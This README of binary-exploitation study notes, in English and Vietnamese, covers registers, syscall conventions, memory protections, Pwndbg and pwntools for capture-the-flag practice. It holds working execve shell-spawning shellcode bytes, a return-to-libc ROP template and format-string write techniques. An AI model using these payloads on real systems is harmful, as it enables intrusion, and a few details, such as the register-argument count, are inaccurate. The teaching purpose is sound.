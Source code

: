# 📓 PWN STUDY NOTES

<details>
<summary><h1>🧠 Computer Architecture</h1></summary>
<p>

## Registers

| Register | Description |
|----------|-------------|
| `rax`    | Return value of a function → `rax`, `eax`, `ax`, `ah`, `al` (64/32/16/8/8) |
| `rbx`    | Base register (no specific use in x64) |
| `rcx`    | Counter register for loops |
| `rdx`    | Data register |
| `rsi`    | Source index (source in data movement) |
| `rdi`    | Destination index (destination in data movement) |
| `rsp`    | Stack pointer |
| `rbp`    | Stack base pointer |

---

## User-space function calls (System V i386 ABI)
- **Arguments:** pushed **right → left** on the stack.
  At callee entry: `[esp+4]=arg1`, `[esp+8]=arg2`, …
- **Return:** `eax` (or `edx:eax`), FP in `st(0)`
- **Callee-saved:** `ebx`, `esi`, `edi`, `ebp` (and `esp`)
- **Caller-saved:** `eax`, `ecx`, `edx`
- **Stack alignment:** ABI baseline 4 bytes; SIMD code may realign to 16 bytes in prologue.

---

## Linux i386 **syscall** convention (`int 0x80`)
- **`eax`** = syscall number.
- **Args 1–6:** `ebx`, `ecx`, `edx`, `esi`, `edi`, `ebp`
- **Return:** `eax` (≥0 success; **negative** = `-errno`)
- Other regs not guaranteed preserved.

---

## Linux x86-64 **syscall** convention (`syscall` instruction)

- **`rax`** — syscall number.
- **Arguments (1–6):** `rdi, rsi, rdx, r10, r8, r9`  
- **Return value:** `rax` (≥ 0 on success; **negative** value = `-errno`) 
- Other registers are preserved per usual rules (`rbx, rbp, r12–r15` are callee-saved in user space).

---

## 🧱 MEMORY STRUCTURE OF LINUX PROCESS

- **Code Segment (.text)**: executable code (r--x)
- **Data Segment**: initialized global/static vars (rw-)
- **BSS Segment**: uninitialized global/static vars (rw-)
- **Heap Segment**: dynamic memory allocation (rw-)
- **Stack Segment**: local vars, return addresses (rw-)
- **Extra Segment**: `fs` and `gs` (used by OS)

---

## ⚙️ ASSEMBLY BASICS

### 🔹 Opcodes

- **Data Transfer**: `mov`, `lea`
- **Arithmetic**: `inc`, `dec`, `add`, `sub`
- **Logic**: `and`, `or`, `xor`, `not`
- **Comparison**: `cmp`, `test`
- **Branch**: `jmp`, `je`, `jg`
- **Stack**: `push`, `pop`
- **Procedure**: `call`, `ret`, `leave`
- **System call**: `syscall`

### 🔹 Memory Operands

- `QWORD PTR [addr]`: 8 bytes
- `DWORD PTR [addr]`: 4 bytes
- `WORD PTR [rax]`: 2 bytes
- `BYTE PTR [rax]`: 1 byte

</p>
</details>


<details>
<summary><h1>📚 Summary of knowledge about pwn</h1></summary>
<p>

## 🐚 SHELLCODE

### 📌 Mục tiêu
Call `execve("/bin/sh", NULL, NULL)` to get shell.

---

### 🧬 Syscall Convention (x86_64)

| Register | Role |
|----------|------|
| `rax`    | Syscall number (`0x3b` for `execve`) |
| `rdi`    | arg0: filename (`/bin/sh`) |
| `rsi`    | arg1: argv (NULL) |
| `rdx`    | arg2: envp (NULL) |

---

### 🔩 Shellcode (x86_64)

```asm
mov rax, 0x68732f6e69622f   ; "/bin/sh" in hex
push rax
mov rdi, rsp                ; rdi = pointer to "/bin/sh"
xor rsi, rsi                ; rsi = NULL
xor rdx, rdx                ; rdx = NULL
mov rax, 0x3b               ; rax = syscall number for execve
syscall
```
bytes
`\x48\xB8\x2F\x62\x69\x6E\x2F\x73\x68\x00\x50\x48\x89\xE7\x48\x31\xF6\x48\x31\xD2\x48\xC7\xC0\x3B\x00\x00\x00\x0F\x05`

---

### 🔩 Shellcode (x86)

```asm
xor eax, eax
xor ecx, ecx
xor edx, edx
add eax, 0x0b               ; syscall number for execve
xor ebx, ebx
push ebx
push 0x68732f2f             ; "//sh"
push 0x6e69622f             ; "/bin"
mov ebx, esp
int 0x80                    ; syscall
```
bytes
`\x31\xC0\x31\xC9\x31\xD2\x83\xC0\x0B\x31\xDB\x53\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\xCD\x80`

## 💥 BUFFER OVERFLOW

### 🧵 Input functions that can overflow

#### `gets(buf)` — **do not use (removed in C11)**
- **No input length limit.**
- Reads until `'\n'`, **does not store** the newline.
- Always appends `'\0'`.
- **Extremely unsafe** → classic stack overflow.

#### `scanf("%s", buf)`
- **No input length limit.**
- Reads until `" "`, `\n`, `\t`.
- Behaves like `gets()`.

#### `scanf("%[width]s", buf)`
- Read maximum `width` characters.
- If `width > sizeof(buf) - 1` → **may overflow**.
- Does not guarantee string **null-termination** (`\0`).

#### `fgets(buf, len, stream)`
- Read maximum `len - 1` characters, always appends `\0`. If input is longer, the excess remains in `stdin`.
- If input < `len`, the remaining part is filled with `\0`.
- If input = `len`, the last byte is discarded and `\0` is added.
- May **lose data**, e.g.: 30-byte buffer → can only store 29 characters if `len = 30`.
- If there's space, store `"\n\0"`.

#### `read(fd, buf, len)`
- Read maximum `len` bytes into `buf`.
- Returns the number of bytes read (≥ 0) or **negative** value on error.
- Does not guarantee null-termination (`\0`).
- Safe only if `len` is **less than or equal** to the sizeof(`buf`).

---

### 📌 Core Overflow types

- **Stack Overflow**: overwrite data on stack (return address, canary, ...).
- **Heap Overflow**: overwrites adjacent heap chunks/objects or allocator metadata.
- **Global/Static Overflow**: overwrites global variables or static data(`.data/.bss`).
- **Off-by-one**: overwrite one byte beyond buffer boundary, often affecting adjacent data.
- **Out-of-bounds**: access memory outside the allocated buffer.
- **Integer Overflow/Underflow**: occurs when an arithmetic operation produces a value outside the representable range of the integer type.

## 🛡️ CANARY (Stack Smashing Protector)

### 🧠 Mục đích
- **Chống tấn công buffer overflow** bằng cách phát hiện ghi đè lên vùng nhớ nhạy cảm.
- Nếu canary bị ghi đè → chương trình sẽ **Segmentation fault** và dừng ngay lập tức.

---

### 🔐 Cấu trúc
- Được lưu tại: `[rbp - 0x8]`
- Là một chuỗi **8 bytes ngẫu nhiên**, **byte đầu luôn là `\x00`**.

## 🔒 NX & ASLR

### 🚫 NX (No-eXecute)
- **Chống Shellcode**: Ngăn chặn thực thi code ở vùng bộ nhớ không được đánh dấu là thực thi.

---

### 🎲 ASLR (Address Space Layout Randomization)
- **Mục tiêu**: Phân bổ ngẫu nhiên địa chỉ cho stack, heap, shared libraries, ... mỗi khi chạy binary.
- **Lợi ích**: Gây khó khăn cho việc đoán địa chỉ khi tấn công.

---

### 🔗 RELRO (RELocation Read-Only)
- **no RELRO**: Cho phép ghi đè lên GOT (Global Offset Table).
- **partial RELRO**: GOT được chuyển thành chỉ đọc sau khi khởi tạo, nhưng một số phần vẫn có thể bị tấn công.
- **full RELRO**: Toàn bộ GOT được bảo vệ, **không thể ghi đè**.

---

### 🔧 Hook Overwrite
- **Ý tưởng**: Bypass RELRO bằng cách ghi đè các con trỏ hàm (như `malloc()`, `free()`, `realloc()`) với địa chỉ của hàm tùy ý nhằm thực thi code độc hại.

## 📌 PIE & RELRO

### 🔀 PIE (Position-Independent Executable)
- **Mục tiêu:** Thực thi binary với địa chỉ load thay đổi ( base address), làm cho việc exploit trở nên khó khăn hơn.
- **Hoạt động:** Mỗi lần chạy, binary sẽ được load vào một địa chỉ ngẫu nhiên, khiến cho việc đoán địa chỉ trở nên phức tạp.

---

### 🔄 PIC (Position-Independent Code)
- **Mục tiêu:** Cho phép code chạy đúng ở bất kỳ vị trí nào trong bộ nhớ.
- **Đặc điểm:** 
  - Không sử dụng địa chỉ tuyệt đối.
  - Phụ thuộc vào các địa chỉ tương đối (dựa trên giá trị của `RIP` trên x86_64) để thực hiện các phép tính địa chỉ.
- **Lợi ích:** Tăng tính linh hoạt và an toàn khi chương trình được load ở các địa chỉ khác nhau.

---

### 🔗 RELRO (RELocation Read-Only)
- **Bảo vệ:** Ngăn chặn ghi đè lên bảng địa chỉ (GOT) nhằm bảo vệ các hàm quan trọng khỏi bị khai thác.
- **Các cấp độ bảo vệ:**
  - **No RELRO:** GOT có thể bị ghi đè, dễ bị tấn công.
  - **Partial RELRO:** Một số phần của GOT được chuyển sang chế độ read-only sau khi khởi tạo.
  - **Full RELRO:** Toàn bộ GOT được bảo vệ hoàn toàn, rất khó bị khai thác.

## 🔄 R2L-ROP

### 📌 Khái niệm cơ bản

- **r2l (Return-to-libc):** Sử dụng lệnh `ret` để gọi hàm có sẵn trong libc, ví dụ: `system("/bin/sh")`.
- **ROP (Return Oriented Programming):** Sử dụng chuỗi các gadget (lệnh `ret` kết hợp với các lệnh nhỏ) để điều khiển luồng thực thi của chương trình.
- **GOT (Global Offset Table):** Bảng chứa địa chỉ của các hàm trong libc (ví dụ: `puts`).
- **PLT (Procedure Linkage Table):** Sử dụng để gọi các hàm qua GOT.
- Call a func : func_plt -> func_got -> func_libc
---

### 🔧 Các chi tiết kỹ thuật

- **Padding Return Address:** 
  - Return address được cấp 16 bytes.
  - Thêm lệnh `ret` trước gadget như `pop rdi; ret` để tránh lỗi do `movaps`.

- **Xác định địa chỉ hàm:**
  - Thông thường, `system` được tính bằng công thức:  
    `system = read - 0xc3c20`  
    (tham khảo `readelf -s libc.so.6 | grep "read@"` để biết offset chính xác)

- **Tìm ROP Gadget:**
  - Sử dụng lệnh:  
    ```bash
    ROP gadget --binary filename | grep "gadget"  
    #tìm ngay trong process
    pop_rdi_ret = r.find_gadget(['pop rdi', 'ret'])[0] #tìm các thanh ghi ex: pop rdi ; ret
    ```  
    ví dụ: tìm gadget `pop rdi; ret` để thiết lập đối số cho `system`.  
    quay lại `main` để khai thác tiếp (`e.symbols['main']`)

---

### 📌 Ví dụ trên x64

1. **Leak địa chỉ libc:**
   - Sử dụng hàm như `puts` để in ra địa chỉ được lưu trong GOT.
   - Ví dụ: dùng gadget `pop rdi; ret` để đưa địa chỉ của `puts@got` vào rdi và sau đó gọi `puts(puts@got)`.
   - Tính toán:
     - `libc_base = leaked_address - puts_offset (libc.symbols['puts'])`

2. **Xác định địa chỉ hàm `system` và chuỗi `/bin/sh`:**
   - `system = libc_base + system_offset`
   - `binsh = libc_base + offset_of_bin_sh`

3. **Triển khai ROP:**
   - Sử dụng gadget `pop rdi; ret` để thiết lập đối số cho hàm `system`.
   - ROP mẫu:  
     ```python
     p64(pop_rdi_ret) + p64(binsh) + p64(system)
     ```

---

### 📌 Ví dụ trên x86

Quy trình tấn công trên x86 có thể bao gồm:
1. Đọc dữ liệu vào writable area: `read(0, writableArea, len("/bin/sh"))`
2. Ghi địa chỉ của read_got ra màn hình: `write(1, read_got, len(str(read_got)))`
3. Đọc địa chỉ mới từ read_got: `read(0, read_got, len(str(read_got)))`
4. Gọi system với writableArea chứa "/bin/sh": `system(writableArea)`

## 📏 OUT OF BOUNDS

- **Out of Bounds (OOB):** Xảy ra khi chỉ số dùng để truy cập phần tử của mảng âm hoặc vượt quá độ dài của mảng.
- **Truy cập phần tử mảng:**  
  ```c
  &arr[k] = arr + sizeof(elem) * k

## 🔠 FORMAT STRING VULNERABILITY (FSB)

### Cách Hoạt Động của `printf`
- **`printf("%s", input)`**: In ra chuỗi được truyền vào biến `input`.
- **`printf("%s")`**: Nếu không có đối số, sẽ in ra giá trị tại địa chỉ thứ 1 trên stack.

### Chỉ Định Tham Số với `$`
- **`printf("%30$s")`**: In ra giá trị của đối số thứ 30 trên stack.
- **`printf("%6$p")`**: In ra địa chỉ (theo dạng hex có `0x`) của đối số thứ 6 trên stack.
- **`printf("%6$x")`**: In ra giá trị hex của đối số thứ 6 trên stack, không kèm `0x`.

### Ứng Dụng của Format String
- **Leak thông tin:**  
  Sử dụng các format specifier như `%p`, `%x`, `%d`, `%*\n` để leak các giá trị trên stack (địa chỉ, giá trị số, ...).
- **Đọc dữ liệu vùng nhớ:**  
  Sử dụng `%s` để in ra chuỗi nằm tại địa chỉ được tham chiếu từ stack (ví dụ: đọc flag).
- **Ghi đè bộ nhớ:**  
  Sử dụng `%n`, `%hn`, `%hhn` để ghi số lượng ký tự đã in ra vào một địa chỉ cụ thể, cho phép thay đổi giá trị của biến trong bộ nhớ.

### Phân Biệt 32-bit và 64-bit
- **32-bit:** Các đối số thường được in trực tiếp từ stack.
- **64-bit:**  
  - 5 đối số đầu tiên được truyền qua các thanh ghi: `rdi`, `rsi`, `rdx`, `rcx`, `r8`, `r9`.
  - Từ đối số thứ 6 trở đi, các giá trị được lấy từ stack (ví dụ: `rsp`, `rsp+0x8`, `rsp+0x10`, `rsp+0x18`).

</p>
</details>

<details>
<summary><h1>🐞 Pwndbg</h1></summary>
<p>

[Pwndbg](https://github.com/pwndbg/pwndbg) is an extension for GDB that provides many useful commands for analyzing and exploiting binaries.

---

## 🔍 Some useful commands

- **`checksec`**: show security features of the binary:
  - **Canary:** anti buffer overflow (often set at `[rbp-0x8]`).
  - **NX (Non-Executable):** prevents execution of shellcode on the stack.
  - **PIE (Position Independent Executable):** Binary is loaded at a random address.
  - **RELRO (RELocation Read-Only):** Checks the protection feature of the address table (GOT). (anti GOT overwrite)

- **`start`**: run the program and stop right at the beginning of the `main` function, helping you quickly start debugging.

- **`disass <func>` (disassemble)**: disassemble the specified function.

- **`vmmap`**: show virtual memory map of the process, including regions: stack, heap, libraries, and other segments, also displays their permissions, size, offsets and file paths.

- **`run`**: execute the program from the beginning.

- **`b *<address>` (break)**: set a breakpoint at a specific address.
  - *Ex:* `b *0x400123`

- **`del <breakpoint>` (delete)**: delete the specified breakpoint.

- **`c` (continue)**: continue executing the program until the next breakpoint or when the program stops.

- **`finish`**: continue executing until the current function ends.

- **`si` (step into)**: execute the next instruction and step into any functions (if present).

- **`ni` (next instruction)**: execute the next instruction but do **not** step into any functions.

- **`i` (info)**: show information about the program state, for example:
  - `i r` (info registers): Information about the registers.
  - `i b` (info breakpoints): List of breakpoints.

- **`k` (kill)**: kill the debugging process.

- **`bt` (backtrace)**: show the call stack at the time of stopping.

- **`x` (examine)**: examine memory at a specific address.
  - Form: `x/<count><format> <address>`

  | Format | Size |
  |--------|------|
  |`x` (hexadecimal) | `b` (Byte, 1 bytes) |
  |`o` (octal) | `h` (Halfword, 2 bytes) |
  |`d` (decimal) | `w` (Word, 4 bytes) |
  |`u` (unsigned decimal) | `g` (Giant, 8 bytes) |
  |`s` (string) |  |
  |`t` (binary) |  |
  |`f` (float) |  |
  |`a` (address) |  |
  |`c` (character) |  |
  |`i` (instruction) |  |
  - *Ex:* `x/10wx 0x601000` show 10 words in hex format from address `0x601000`.

- **`tel` (telescope)**: show memory around the current instruction pointer, recursively explores addresses referenced by the memory to display their values.

- **`context`**: show an overview of the current state of the process, including registers, stack, and disassembly around the current address.

- **`heap`**: show detailed information about the heap, assisting in the analysis of heap-related vulnerabilities.

- **`vis_heap_chunks`**: visualize heap chunks, showing their metadata and contents.

- **`search`**: search for a string or byte sequence in memory.
  - *Ex:* `search "flag"` will find all locations containing the string `"flag"`.

- **`p &<variable>` (print)**: print the address of a specific variable.
  - *Ex:* `p &0x601000` will print the value at address `0x601000`.

- **`pattern_create`** and **`pattern_offset`**
  - Useful for creating and analyzing pattern strings (cyclic patterns) to find offsets during exploitation:
    - `pattern_create 100`: Create a pattern with 100 bytes.
    - `pattern_offset <value>`: Determine the position of the `<value>` in the pattern.

- **`set detach-on-fork off`**: tells GDB to not detach from the other processes after program calls `fork()/vfork()`. Both parent and child processes will stay under GDB as separate inferiors.
  - **`set follow-fork-mode child/parent`**: process that GDB will follow after a fork.
  - **`info inferiors`**: list tracked processes.
  - **`inferior <id>`**: switch to a specific inferior process.

</p>
</details>

<details>
<summary><h1>🧰 Pwntools</h1></summary>
<p>

[PwnTools](https://github.com/Gallopsled/pwntools) is a powerful library that supports binary mining and automation. Here are some basic commands and techniques:

---

### 🔹 Process & Remote

```python
from pwn import *

# Khởi tạo process cục bộ
p = process('./filename')        # Local binary

# Kết nối tới server từ xa
p = remote('address', port)      # Remote server

# Đính kèm gdb để debug (với API của pwntools)
gdb.attach(p, api=True)
```

### 🔹 ELF & Libc

```python
# Load binary và libc
e = ELF('./filename')
libc = ELF('./libc.so.6')

# Lấy địa chỉ từ PLT (Procedure Linkage Table)
plt_addr = e.plt['funcname']

# Lấy địa chỉ từ GOT (Global Offset Table)
got_addr = e.got['funcname']

# Lấy offset của hàm trong binary
func_offset = e.symbols['funcname']

# Lấy offset của hàm trong libc (chú ý: tên symbol phải chính xác)
libc_func_offset = libc.symbols['funcname']

# Tìm vị trí chuỗi "/bin/sh" trong libc
bin_sh = list(libc.search(b'/bin/sh'))[0]
```

### 🔹 Packing & Unpacking

```python
# Chuyển đổi số thành chuỗi byte dạng little-endian (64-bit và 32-bit)
packed_64 = p64(0xdeadbeef)
packed_32 = p32(0xdeadbeef)

# Giải nén chuỗi byte thành số nguyên (64-bit và 32-bit)
number_64 = u64(b'\xef\xbe\xad\xde\x00\x00\x00\x00')
number_32 = u32(b'\xef\xbe\xad\xde')
```

### 🔹 Sending and receiving data

```python
# Gửi dữ liệu
p.send(b'A')                      # Gửi 1 byte 'A'
p.sendline(b'A')                  # Gửi 'A' kèm newline

# Gửi dữ liệu sau khi nhận được prompt
p.sendafter(b'hello', b'A')
p.sendlineafter(b'hello', b'A')

#send and sendline
send: read
sendline: scanf, gets, fgets

# Nhận dữ liệu
data = p.recv(1024)               # Nhận tối đa 1024 byte
line = p.recvline()               # Nhận đến khi gặp newline
exact = p.recvn(5)                # Nhận chính xác 5 byte
until = p.recvuntil(b'hello')     # Nhận cho đến khi gặp chuỗi 'hello'
all_data = p.recvall()            # Nhận toàn bộ dữ liệu cho đến khi process kết thúc
```

### 🔹 Shellcode

```python
# Shellcode dạng bytes (x86)
shellcode_x86 = (
    b"\x31\xc0\x50\x68\x2f\x2f\x73\x68"
    b"\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9"
    b"\x31\xd2\xb0\x0b\xcd\x80"
)

# Shellcode dạng bytes (x86_64)
shellcode_x86_64 = (
    b"\x48\x31\xFF\x57\x48\xBF\x2F\x62\x69\x6E"
    b"\x2F\x2F\x73\x68\x57\x48\x31\xF6\x48\x31\xD2"
    b"\x48\x89\xE7\x48\x31\xC0\x48\x83\xC0\x3B\x0F\x05"
)

# Tạo shellcode để spawn shell bằng shellcraft
code = shellcraft.sh()
machine_code = asm(code)          # Assembles shellcode thành machine code

# Ví dụ: sử dụng shellcode để cat file (lúc excerve bị band)
shellcraft.cat() có thể được sử dụng để in nội dung của file trong một số tình huống
```

### 🔹 Print & Interactive

```python
# Hiển thị thông tin ra console
log.info("Thông tin hữu ích" + info)

# Chuyển sang chế độ interactive để tương tác trực tiếp với process
p.interactive()
```

</p>
</details>

<details>
<summary><h1>🔗 Pwninit</h1></summary>
<p>

[Pwninit](https://github.com/io12/pwninit) is a tool for patching binary with provided libc and loader.

---
Commands:

- `pwninit`: tự patch file
- `mv file_patch file`: đổi tên

</p>
</details>

<details>
<summary><h1>🛠️ Other useful tools</h1></summary>
<p>

- [CyberChef](https://gchq.github.io/CyberChef/) : tool for analyzing and decoding data

- [LinuxSyscallReference(64bit)](https://syscalls64.paolostivanin.com/) : tool for looking up Linux syscalls and their parameters

- [Online Assembler/Disassembler](https://defuse.ca/online-x86-assembler.htm) : tool for assembling and disassembling x86/x64

</p>
</details>

